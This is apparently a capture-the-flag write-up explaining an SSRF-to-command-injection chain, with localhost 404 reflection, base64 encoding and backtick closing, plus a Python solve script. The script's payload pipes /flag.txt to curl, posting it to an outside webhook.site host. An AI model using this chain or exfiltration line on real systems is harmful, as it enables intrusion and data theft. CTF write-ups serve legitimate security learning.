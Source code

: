 ```yaml
---
ai_date: 2025-04-27 05:21:34
ai_summary: Exploited SSRF using 404 redirect and base64 encoding to inject payload, fixed unclosed backtick issue.
ai_tags:
  - ssrf
  - xss
  - base64
created: 2024-08-02T15:00
points: 100
solves: 87
tags:
  - reflection
updated: 2025-07-14T09:46
---
```


To inject content into `exec`, we have to make `localhost` output arbitrary content.

We can do that with 404.

`target?url=(localhost/payload)`
![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1722625383/2024/08/75a8802358f655bfa756b85929d323c2.png)

The payload would hence be something like this.
`target?url=(localhost?url=localhost/payload)`

Since the output goes through base64 decode, we also have to encode our payload.

However, with some debugging I found out that the html content itself after base64 decode, will produce a unclosed backtick, we need to close it ourselves.

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1722625635/2024/08/0ea78502d162e8923b24ebc7a6d359e3.png)

## solve script

```python
import base64
import requests
import urllib.parse

payload = "`;\ncat /flag.txt | curl https://webhook.site/ -X POST -d @-\n"
payload = base64.b64encode(payload.encode()).decode()
safe_string = urllib.parse.quote_plus("http://localhost/"+payload)
safe_string = urllib.parse.quote_plus("http://localhost/?url="+safe_string)
requests.get("http://challs.tfcctf.com:30795/?url="+safe_string)
```